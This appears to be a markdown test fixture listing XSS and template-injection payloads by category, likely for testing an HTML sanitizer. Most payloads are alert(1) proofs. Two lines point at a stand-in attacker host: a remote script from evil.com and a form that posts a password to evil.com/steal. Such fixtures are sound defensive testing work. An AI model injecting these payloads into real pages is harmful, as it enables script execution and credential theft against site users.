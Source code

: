 # XSS Injection Test Document

This markdown document contains various XSS injection attempts:

## Script Tags

<script>alert('XSS')</script>
<script src="http://evil.com/xss.js"></script>
<ScRiPt>alert(1)</ScRiPt>

## Event Handlers

<img src=x onerror='alert(1)'>
<body onload='alert(1)'>
<svg onload='alert(1)'></svg>
<input onfocus='alert(1)' autofocus>
<marquee onstart='alert(1)'>XSS</marquee>

## JavaScript URLs

[Click me](javascript:alert('XSS'))
[Innocent link](vbscript:msgbox('XSS'))
![Image](javascript:alert(1))

## Data URLs

![](data:text/html,<script>alert('XSS')</script>)
[Link](data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==)
![](data:image/svg+xml,<svg onload='alert(1)'>)

## Malicious iframes

<iframe src='javascript:alert(1)'></iframe>
<iframe srcdoc='<script>alert(1)</script>'></iframe>
<iframe src='data:text/html,<script>alert(1)</script>'></iframe>

## CSS Injection

<style>body{background:url('javascript:alert(1)')}</style>
<div style='background-image:url(javascript:alert(1))'>
<link rel="stylesheet" href="javascript:alert(1)">

## Meta Refresh

<meta http-equiv='refresh' content='0;url=javascript:alert(1)'>
<meta http-equiv="Set-Cookie" content="xss=true">

## Form Actions

<form action='javascript:alert(1)'><input type='submit'></form>
<form method="POST" action="http://evil.com/steal">
  <input name="password" type="password">
</form>

## Object/Embed

<object data='javascript:alert(1)'></object>
<embed src='javascript:alert(1)'>
<applet code="javascript:alert(1)"></applet>

## HTML5 Features

<video src="javascript:alert(1)">
<audio src="javascript:alert(1)">
<source src="javascript:alert(1)">

## Template Injection

{{7*7}}
${7*7}
<%= 7*7 %>
#{7*7}

## Other Vectors

<base href="javascript:alert(1)//">
<link rel="import" href="javascript:alert(1)">
<!--[if IE]><script>alert(1)</script><![endif]-->